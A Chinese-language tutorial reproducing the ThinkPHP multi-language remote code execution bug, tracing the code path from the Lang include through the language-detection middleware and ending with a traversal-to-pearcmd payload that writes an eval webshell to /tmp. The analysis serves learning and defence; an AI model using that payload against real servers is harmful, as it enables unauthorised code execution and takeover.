



# thinkphp 多语言 RCE

本次复现不像传统漏洞复现以正向流程进行漏洞复现，而是以发现漏洞利用点后，如何调用漏洞利用点进行反向调用漏洞流程 ，让初学者学习如何挖掘漏洞。

### 环境准备

```plain
composer create-project topthink/think tp 6.0.1
```

1.  **清理 Composer 缓存：**运行以下命令清理 Composer 缓存，以确保使用最新的依赖关系信息：
    
    ```plain
    composer clear-cache
    ```
    
2.  **删除 `vendor` 目录和 `composer.lock` 文件：**删除 `vendor` 目录和 `composer.lock` 文件，然后重新运行 `composer install`：
    
    ```plain
    rm -rf vendor
    composer install
    ```
    
3.  **手动编辑 `composer.lock` 文件：**如果上述步骤未能解决问题，你可以尝试手动编辑 `composer.lock` 文件，将 `"topthink/framework"` 的版本更改为 `"v6.0.1"`。请注意，手动编辑 `composer.lock` 文件可能会引入其他问题，所以请小心操作。
    
    打开 `composer.lock` 文件，找到 `"topthink/framework"` 的部分，将版本更改为 `"v6.0.1"`，然后保存文件。
    
4.  **运行 `composer update`：**运行 `composer update` 命令，以确保 `composer.lock` 文件中的版本与 `composer.json` 文件中的版本一致：
    
    ```plain
    composer update
    ```
    

  

### 影响范围

Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x

漏洞描述

如果 Thinkphp 程序开启了多语言功能，那就可以通过 get、header、cookie 等位置传入参数，实现目录穿越 + 文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

Thinkphp6 开启多语言模式

目录：app/middleware.php



thinkphp5 开启多语言模式

目录 application/config.php

```plain
'lang_switch_on'         => true
```



  

## 多语言模式下的文件包含

#### 寻找攻击链

漏洞触发点

Lang.php 下的 parse 函数

```plain
protected function parse(string $file): array
{
$type = pathinfo($file, PATHINFO_EXTENSION);
​
switch ($type) {
case 'php':
$result = include $file; #任意文件包含
break;
case 'yml':
case 'yaml':
if (function_exists('yaml_parse_file')) {
$result = yaml_parse_file($file);
}
break;
}
​
return isset($result) && is_array($result) ? $result : [];
}
```

  

发现在 Lang.php 下 load 函数调用了它

```plain
public function load($file, $range = ''): array
{
$range = $range ?: $this->range;
if (!isset($this->lang[$range])) {
$this->lang[$range] = [];
}
​
$lang = [];
​
foreach ((array) $file as $_file) {
if (is_file($_file)) {
$result = $this->parse($_file);
$lang   = array_change_key_case($result) + $lang;
}
}
​
if (!empty($lang)) {
$this->lang[$range] = $lang + $this->lang[$range];
}
​
return $this->lang[$range];
}
```

  

全局搜索 load 的调用，连续两次 Shift 键

  



  

```plain
LoadLangPack.php
```

```plain
public function handle($request, Closure $next)
{
// 自动侦测当前语言
$langset = $this->lang->detect($request);
​
if ($this->lang->defaultLangSet() != $langset) {
// 加载系统语言包
$this->lang->load([
$this->app->getThinkPath() . 'lang' . DIRECTORY_SEPARATOR . $langset . '.php',
]);
​
$this->app->LoadLangPack($langset);
}
​
$this->lang->saveToCookie($this->app->cookie);
​
return $next($request);
}
```

  

全局搜索 handle 却没发现任何有被调用的痕迹，这个时候如果是正常情况下已经断了。

但是 LoadLangPack 这个类与多语言加载有关 midddleware.php 中注释取消 环境会自动进行类加载

到此一个完整的攻击链完成 接着就是 构造合适的参数达到对文件包含的利用

  

#### 构建攻击参数

开启多语言后 LoadLangPack.php 默认加载的化

首先分析

```plain
$langset = $this->lang->detect($request);
```

进入 Ctrl+B detect ()

```plain
public function detect(Request $request): string
{
// 自动侦测设置获取语言选择
$langSet = '';
​
if ($request->get($this->config['detect_var'])) {
// url中设置了语言变量
$langSet = strtolower($request->get($this->config['detect_var']));
} elseif ($request->cookie($this->config['cookie_var'])) {
// Cookie中设置了语言变量
$langSet = strtolower($request->cookie($this->config['cookie_var']));
} elseif ($request->server('HTTP_ACCEPT_LANGUAGE')) {
// 自动侦测浏览器语言
$match = preg_match('/^([a-z\d\-]+)/i', $request->server('HTTP_ACCEPT_LANGUAGE'), $matches);
if ($match) {
$langSet = strtolower($matches[1]);
if (isset($this->config['accept_language'][$langSet])) {
$langSet = $this->config['accept_language'][$langSet];
}
}
}
​
if (empty($this->config['allow_lang_list']) || in_array($langSet, $this->config['allow_lang_list'])) {
// 合法的语言
$this->range = $langSet;
}
​
return $this->range;
}
```

进入第一个 if

```plain
'detect_var'      => 'lang',
```

  

```plain
$this->config['detect_var']    ==  lang
```

也就是说我们 传递的参数是 lang

```plain
$langSet = strtolower($request->get($this->config['detect_var']));
```

$request->get 是 thinkphp app/Request 中的方法 这里不详细说明 我们可以理解为 把 lang 传递的数据小写赋值给 $langSet

$this->config \['allow\_lang\_list'\] 默认是空

最后返回 lang 传递的数据

  

进入 load

```plain
$this->lang->load([
$this->app->getThinkPath() . 'lang' . DIRECTORY_SEPARATOR . $langset . '.php',
]);
```

  

$this->app->getThinkPath () 默认的 php 安装路径

```plain
xxx\tp\vendor\topthink\framework\src\
```

默认

DIRECTORY\_SEPARATOR='\\'

```plain
xxx\tp\vendor\topthink\framework\src\lang\我们输入的数据.php
```

  

  

```plain
foreach ((array) $file as $_file) {
if (is_file($_file)) {
$result = $this->parse($_file);
$lang   = array_change_key_case($result) + $lang;
}
}
```

  

让 $\_file 存在 利用../../../ 目录穿越 绕过 if

进入 parse ()

```plain
protected function parse(string $file): array
{
$type = pathinfo($file, PATHINFO_EXTENSION);
​
switch ($type) {
case 'php':
$result = include $file;
break;
case 'yml':
case 'yaml':
if (function_exists('yaml_parse_file')) {
$result = yaml_parse_file($file);
}
break;
}
​
return isset($result) && is_array($result) ? $result : [];
}
​
```

  

$type 就是 php 它给加的默认后缀

#### pear 写入文件

[https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)

利用条件

1）服务器上安装 pear，也就是存在 pearcmd.php。同时知道 pearcmd.php 的文件路径

2）web 环境下在 php.ini 中 register\_argc\_argv 设置为 On

3）存在文件包含，可以包含 php 文件并且没有 open\_basedir 的限制

  

php 的 pear 扩展是一个命令行扩展管理工具，默认的安装路径在 `/usr/local/lib/php/pearcmd.php`，在命令行下可以用 `pear` 或 `php /usr/local/lib/php/pearcmd.php` 运行，虽然不是在 web 的目录下，但是如果存在文件包含漏洞，我们就可以运行这个命令行工具

我们再来看 `register_argc_argv` 选项，在这个选项字段如果选了 `ON` 的话，URL 中？后面的内容会全部传入至 `$_SERVER['argv']` 这个变量内，无论后面的内容是否有等号。

  

docker 下的 payload

```plain
lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=eval($_REQUEST[1]);?>+/tmp/eval.php
```
